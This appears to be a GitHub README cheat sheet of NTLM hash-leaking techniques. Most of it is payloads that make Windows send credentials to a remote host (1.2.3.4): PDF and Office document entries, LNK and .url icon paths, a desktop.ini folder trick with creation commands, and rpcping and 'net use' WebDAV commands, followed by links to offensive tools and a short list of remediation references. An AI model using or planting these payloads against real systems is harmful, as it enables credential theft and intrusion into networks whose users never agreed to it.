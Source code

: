 # All_NTLM_leak


## PDF file
/F (\\\\\\\\IP@80\\\\t)

## dubdoc
///1.2.3.4@80/t
## Doc
Target=file://1.2.3.4@80/t.dotx
URL
file://IP@80/t.htm
## lnk
URL\=file://1.2.3.4@80/t.htm
## IconFile
\\\\1.2.3.4@80\\t.ico
## rpcping
rpcping -s 1.2.3.4 -e 1234 -a privacy -u NTLM
## dir
dir \\\\1.2.3.4@SSL@443\\DavWWWRoot\\test.exe

## Net command + WebDAV envoke
* net use \\\\1.2.3.4@80\\t
* net use * \\\\1.2.3.4@SSL@443\\folder\\subfolder password /user:userID
* net use * https://1.2.3.4:443/folder/subfolder password /user:userID
* net use * http://1.2.3.4/folder/subfolder password /user:root
* net use * \\\\1.2.3.4\\folder\\subfolder password /user:userID
* net use \\\\1.2.3.4@SSL@443\\DavWWWRoot\\test.exe \. (the DavWWWRoot triggers WebDAV forcibly )
* net use \\\\domain.site@80\\uri_folder\\index.html
* net use * https://1.2.3.4:443/folder/subfolder password /user:userID
* dir \\\\1.2.3.4@SSL@443\\DavWWWRoot\\test.exe

## Create .url file to leak using “ICO” request to file share
Create a new TXT file and paste the following:<br/>
[InternetShortcut]  <br/>
URL=http://www.WeLoveResponder.com <br/>
IconIndex=0  <br/>
IconFile\=\\\\1.2.3.4\\L3\\3T.ico
Rename the file from .txt to .url

## Create desktop.ini file to leak credentials using a folder
mkdir Folder <br/>
attrib +s Folder <br/>
cd Folder <br/>
echo [.ShellClassInfo] > desktop.ini <br/>
echo IconResource\=\\\\1.2.3.4\\aa >> desktop.ini <br/>
attrib +s +h desktop.ini

## Dir, IE/EDGE, Office, URL, LNK, HREF, Media Player, Java web start, ClickOnce
https://www.securify.nl/blog/SFY20180501/living-off-the-land_-stealing-netntlm-hashes.html

## Leak credentials using HTML
https://github.com/ShikariSenpai/Leak-NTLM-hash-via-HTML

## Remediation
* https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/dd560653(v=ws.10)
* https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-outgoing-ntlm-traffic-to-remote-servers
* https://blogs.technet.microsoft.com/askds/2009/10/08/ntlm-blocking-and-you-application-analysis-and-auditing-methodologies-in-windows-7/

## KBs
* https://www.bleepingcomputer.com/news/security/understanding-the-windows-credential-leak-flaw-and-how-to-prevent-it/
* https://dylankatz.com/NTLM-Hashes-Microsoft's-Ancient-Design-Flaw/
* https://www.helpnetsecurity.com/2017/05/15/stealing-windows-credentials-using-google-chrome/
* https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/introducing-responder-10/
* https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/owning-windows-networks-with-responder-17/
* https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/top-five-ways-spiderlabs-got-domain-admin-on-your-internal-network/
* https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/owning-windows-networks-with-responder-part-2/
* https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/responder-20-owning-windows-networks-part-3/
* https://www.n00py.io/2019/06/understanding-unc-paths-smb-and-webdav/
* https://twitter.com/mynameisv__/status/1123256857072742400
* https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Rpcping.yml
* https://github.com/cure53/HTTPLeaks

## tools
* https://github.com/deepzec/Bad-Pdf
* https://github.com/elnerd/Get-NetNTLM
* https://github.com/ShikariSenpai/Leak-NTLM-hash-via-HTML
* https://github.com/cure53/HTTPLeaks

